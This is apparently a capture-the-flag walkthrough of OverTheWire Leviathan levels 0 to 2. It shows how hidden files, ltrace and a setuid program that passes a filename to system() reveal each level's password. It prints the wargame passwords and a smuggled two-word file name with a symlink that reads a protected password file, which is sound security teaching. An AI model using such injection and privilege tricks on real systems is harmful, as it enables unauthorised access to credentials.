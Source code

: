 ```yaml
---
title: "Over The Wire - Leviathan Walkthrough"
date: 2019-03-31T00:05:08Z
---
```


# Level 0

Arriving at Level 0 we can use `ls -l` to print any files, however it prints:

```
total 0
```

So we should maybe use `ls -la` which should print:

```
total 24
drwxr-xr-x  3 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
drwxr-x---  2 leviathan1 leviathan0 4096 Oct 29 21:17 .backup
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

Because according to `man ls`:

```
-a, --all
              do not ignore entries starting with .
```

We `cd .backup && ls -la` in order to get into the directory and print the contents and get:

```
total 140
drwxr-x--- 2 leviathan1 leviathan0   4096 Oct 29 21:17 .
drwxr-xr-x 3 root       root         4096 Oct 29 21:17 ..
-rw-r----- 1 leviathan1 leviathan0 133259 Oct 29 21:17 bookmarks.html
```

We need to read the `bookmarks.html` and the easiest way is using `cat`, however there's a problem, the file is extremely long!
Time to filter it! We pipe it to `grep` and search for `leviathan` given the password should probably be referenced that way!

```bash
cat bookmarks.html | grep leviathan
```

And lo and behold!

```html
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

# Level 1

Again and moving forward, our first command when we arrive to the level is `ls -la`.

This time the output is:

```
total 28
drwxr-xr-x  2 root       root       4096 Oct 29 21:17 .
drwxr-xr-x 10 root       root       4096 Oct 29 21:17 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan2 leviathan1 7452 Oct 29 21:17 check
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

Uh, what is that check? Lets find out, we run `file` on it and we get back:

```
check: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c735f6f3a3a94adcad8407cc0fda40496fd765dd, not stripped
```

Since it is an executable we can first try to see what it does!
When executing it, it asks us for a password, if we fail it closes...

We can try to find out the string using `strings` on it, however it doesn't provide anything meaningful in this case.

Introducing `ltrace`!

```
ltrace is a program that simply runs the specified command until it exits. It intercepts and records the dynamic library calls which are called by the executed process and the signals which are received by that process. It can also intercept and print the system calls executed by the program.
```

Let's try it out, run `ltrace ./check`, the program will start running as normal however you can already see a lot of information about what's going on.

Using `test` as our password the output we get from `ltrace` is this.

```
__libc_start_main(0x804853b, 1, 0xffffd794, 0x8048610 <unfinished ...>
printf("password: ")                                                                                                                                                 = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: test
)                                                                                                                                = 116
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                                                                = 101
getchar(1, 0, 0x65766f6c, 0x646f6700)                                                                                                                                = 115
strcmp("tes", "sex")                                                                                                                                                 = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                                                                                                                 = 29
+++ exited (status 0) +++
```

We can see it calls `strcmp` with the first 3 characters from the input password and compares them with `sex`.

Trying is as a password gives us another shell! Did our user changed? Running `whoami` we get the following:

```
leviathan2
```

Uhhh! This means we can read the password for the next level!

Running `cat /etc/leviathan_pass/leviathan2` outputs our password!

```
ougahZi8Ta
```

# Level 2

This time we have `printfile`, since we have no clue what it does lets run it.

An empty argument list yields:

```
*** File Printer ***
Usage: ./printfile filename
```

So we create a file on the `/tmp` folder with `echo "test" >> /tmp/printfile_test`, 
so now our file contains `test` and given the executable name we are hoping to see `test` being printed out.

As expected `./printfile /tmp/printfile_test` prints out:

```
test
```

Let's try the same, however using `ltrace`, the output is:

```
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/tmp/printfile_test", 4)                                                                                                                                     = 0
snprintf("/bin/cat /tmp/printfile_test", 511, "/bin/cat %s", "/tmp/printfile_test")                                                                                  = 28
geteuid()                                                                                                                                                            = 12002
geteuid()                                                                                                                                                            = 12002
setreuid(12002, 12002)                                                                                                                                               = 0
system("/bin/cat /tmp/printfile_test"test
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                                               = 0
+++ exited (status 0) +++
```

The second line `access("/tmp/printfile_test", 4)`, 
checks wether the calling process can access the file.

As stated in the `access(2)` manpage:
> `access()` checks whether the calling process can access the file `pathname`. If `pathname` is a symbolic link, it is dereferenced.
>
> (...)
>
> The check is done using the calling process's real UID and GID, rather than the effective IDs as is  done when actually attempting an operation (e.g., open(2)) on the file.

So far we know the following:

- `access` requires the file to exist
- It will check the permission based on the process real UID and GID
    - This means that it checks if the user calling the process has the permissions and not the program itself

If we go further we can see that two calls to `geteuid` are made, both returning `12002`.
Running `id -u` we can verify that that is the ID of `leviathan2`.

Afterwards we can observe a call to `setreuid`, a quick look in the manpages yields the following:

> setreuid() sets real and effective user IDs of the calling process.

This means that we have a `setuid`-like binary in hands, 
and so we can't rely on `ltrace` to do a faithful job, 
while there is a flag addressing such issue:

> `-u username`
>
> Run command with the userid, groupid and supplementary groups of username. This option is only useful when running as root and enables the correct execution of setuid and/or setgid binaries.

It only works for root, 
so when we want to try the "final" version we will always run without `ltrace`, 
this applies for further levels as well.

Finally there is a call to `system`:

```
system("/bin/cat /tmp/printfile_test")
```

This call will be executed with the priviledges set by `setreuid` and while when running with `ltrace`
they are the same as the current level it is possible to think that without it, 
it is probably a more usefull call.

This opens up a security hole given that the priviledges being checked with `access` 
are not the same as the ones when calling `system`.
Furthermore the use of `%s` in `snprintf` means that 
we have control of the input over the command being run.

Ideally we want to run the following command:

```
cat /etc/leviathan_pass/leviathan3
```

However we do not have access to `/etc/leviathan_pass/leviathan3`, 
to any symbolic links given that they resolve to the file anyway, 
neither we can create a file called `test /etc/leviathan_pass/leviathan3`.

However we can create one called `test link`, and then run `printfile "test link"`.
This won't be very useful unless either `test` or `link` are symbolic links to `/etc/leviathan_pass/leviathan3`.
To do so, we run

```
touch "test link"
ln -s /etc/leviathan_pass/leviathan3 link
~/printfile "test link"
```

Which will create the dummy file for the `printfile` to take and check access over, 
create a symbolic link to `/etc/leviathan_pass/leviathan3` named `link` 
and finally run `~/printfile "test link"` yielding:

```
/bin/cat: test: No such file or directory
Ahdiemoo1j
```

And there is our password!